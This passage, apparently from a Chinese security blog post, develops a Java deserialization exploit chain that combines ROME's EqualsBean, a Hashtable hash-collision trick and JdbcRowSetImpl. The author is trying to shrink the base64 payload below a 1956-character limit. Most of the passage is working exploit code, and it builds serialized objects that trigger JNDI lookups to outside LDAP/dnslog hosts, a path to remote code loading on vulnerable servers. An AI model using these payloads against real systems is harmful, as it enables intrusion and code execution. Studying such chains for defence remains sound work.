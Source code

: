 ```java
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://exmaple.dnslog.cn/a");
        jdbcRowSet.setMatchColumn(new String[]{"a"});

        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", jdbcRowSet);
        map2.put("zZ", bean);
        map2.put("yy", jdbcRowSet);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", JdbcRowSetImpl.class);
        setFieldValue(bean, "_obj", jdbcRowSet);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(baos);
        objectOutputStream.writeObject(table);
        String b64data = new BASE64Encoder().encode(baos.toByteArray());
        System.out.println(b64data.length());

        // 反序列化
        // ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        // ois.readObject();
    }
}
```
但是当我们运行程序时很遗憾地发现长度还是超出了1956:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220307113636.png)

新链2长度很大的原因是因为 `JdbcRowSetImpl` 这个类的对象太大了，方法巨多，本来优化的思路是用ASM把没用的属性和方法全部扬了，但是这个类的类加载器是 `BootStrap` ，位于双亲委派的最顶层，所以修改过后的字节码没办法再次加载。

另一个优化思路是把没用的属性全部改为null，但是要注意不能影响sink的最终执行结果，所以这里要对照 `pds[]` 中 getter 方法的顺序选择对应的属性进行修改：
```java
public class ROME_JNDI {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://1tqzc9.dnslog.cn/");
        jdbcRowSet.setMatchColumn("a");

        clear(jdbcRowSet);

        EqualsBean equalsBean = new EqualsBean(String.class, "");
        HashMap<String, Object> innerMap1 = new HashMap<>();
        innerMap1.put("zZ", equalsBean);
        innerMap1.put("yy", jdbcRowSet);
        HashMap<String, Object> innerMap2 = new HashMap<>();
        innerMap2.put("zZ", jdbcRowSet);
        innerMap2.put("yy", equalsBean);

        Hashtable table = new Hashtable();
        table.put(innerMap1, 1);
        table.put(innerMap2, 1);

        Utils.setFieldValue(equalsBean, "_beanClass", JdbcRowSetImpl.class);
        Utils.setFieldValue(equalsBean, "_obj", jdbcRowSet);

        System.out.println(new BASE64Encoder().encode(Utils.serialize(table)).length());
```